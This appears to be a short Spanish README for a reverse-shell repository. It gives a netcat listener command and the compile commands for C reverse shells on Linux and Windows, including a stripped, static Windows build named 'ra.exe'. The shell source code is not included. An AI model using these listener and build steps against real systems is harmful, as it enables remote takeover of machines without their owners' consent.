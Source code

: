 # CodigoShellReverse

## Netcat
nc -lnp 4444

## Shell C en Linux

```bash
$ gcc shellLinux.c -o linux
```


## Shell C en Windows
```bash
# apt install mingw-w64
# i686-w64-mingw32-g++ shellWin.c -o ra.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
